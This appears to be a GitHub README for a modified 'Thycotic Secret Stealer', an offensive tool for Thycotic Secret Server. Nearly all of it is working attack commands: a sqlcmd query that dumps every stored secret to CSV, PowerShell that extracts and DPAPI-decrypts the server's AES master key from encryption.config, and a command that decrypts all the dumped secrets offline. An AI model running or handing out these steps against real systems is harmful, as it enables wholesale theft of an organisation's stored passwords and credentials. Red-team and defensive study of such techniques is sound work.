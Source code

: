 # Modified Thycotic Secret Stealer 

Quick modification of [Thycotic Secret Stealer](https://github.com/denandz/SecretServerSecretStealer) to pull AES master Key from DPAPI and then perform Decryption offline and spit output to CSV file. 

# SQLCMD
The following SQLCMD will pull all the items from the Database
```
sqlcmd -d SecretServer -q "select s.SecretName, f.SecretFieldName, s.[Key], i.ItemValue from tbSecretItem as i JOIN tbSecret as s ON (s.SecretID = i.SecretID) JOIN tbSecretField as f on (i.SecretFieldID = f.SecretFieldID)" -W -w 1024 -s "," -o Data.csv
```

# Pull Master Key off Thycotic Server

```
$masterKeys = Get-MasterKeysv104 -path C:\inetpub\wwwroot\SecretServer\encryption.config
$masterkeys.IsEncryptedWithDPAPI # should return true
$decrypted = [Security.Cryptography.ProtectedData]::Unprotect([Convert]::FromBase64String($masterkeys.key256), $null, 'LocalMachine')
[Text.Encoding]::ASCII.GetString($decrypted)
```

# Decrypt and Spit to CSV
```
Invoke-SecretDump -SecretServerDataPath <PATH TO .csv> -MasterKey <AES MASTER KEY>
```
# References
SecretServer v10.5 and greater changed how keys and IVs are stored. Extraction can be done by using the steps detailed in this issue.
https://github.com/denandz/SecretServerSecretStealer/issues/5#issuecomment-666905276

Big thanks to curi0usJack and his original post here: 
https://www.trustedsec.com/blog/thycotic-secret-server-offline-decryption-methodology/


